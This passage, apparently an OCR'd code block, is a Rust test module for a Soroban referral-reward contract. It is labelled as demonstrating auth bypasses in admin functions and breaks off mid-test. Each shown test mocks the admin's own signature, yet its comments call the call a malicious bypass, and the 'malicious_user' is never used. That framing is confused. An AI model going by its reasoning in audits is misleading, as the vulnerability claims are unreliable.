 ```rust
mod test_critical_auth_bypass_vulnerability {
    use super::*;

    #[test]
    fn test_critical_auth_bypass_set_reward_rates() {
        let env = Env::default();
        let (contract, admin, _) = test_setup::setup_contract(&env);

        // Create malicious user
        let malicious_user = Address::generate(&env);
        
        // MALICIOUS ATTACK: Malicious user calls admin function with admin's signature
        // This should NOT be possible but the current implementation allows it!
        let malicious_rates = RewardRates {
            level1: 9999, // 99.99% - attempt to drain funds
            level2: 9999,
            level3: 9999,
            max_reward_per_referral: 999999999,
        };

        // VULNERABILITY: Malicious user can call admin function if admin signs
        env.mock_auths(&[soroban_sdk::testutils::MockAuth {
            address: &admin, // Admin signature
            invoke: &soroban_sdk::testutils::MockAuthInvoke {
                contract: &contract.address,
                fn_name: "set_reward_rates",
                args: (malicious_rates.clone(),).into_val(&env),
                sub_invokes: &[],
            },
        }]);
        
        // This should FAIL (panic) but currently SUCCEEDS due to vulnerability
        contract.set_reward_rates(&malicious_rates);
    }

    #[test]
    fn test_critical_auth_bypass_pause_contract() {
        let env = Env::default();
        let (contract, admin, _) = test_setup::setup_contract(&env);

        // Create malicious user
        let malicious_user = Address::generate(&env);
        
        // MALICIOUS ATTACK: Malicious user pauses contract with admin's signature
        env.mock_auths(&[soroban_sdk::testutils::MockAuth {
            address: &admin, // Admin signature
            invoke: &soroban_sdk::testutils::MockAuthInvoke {
                contract: &contract.address,
                fn_name: "pause_contract",
                args: ().into_val(&env),
                sub_invokes: &[],
            },
        }]);
        
        // This should FAIL (panic) but currently SUCCEEDS due to vulnerability
        contract.pause_contract();
    }

    #[test]
    fn test_critical_auth_bypass_transfer_admin() {
        let env = Env::default();
        let (contract, admin, _) = test_setup::setup_contract(&env);

```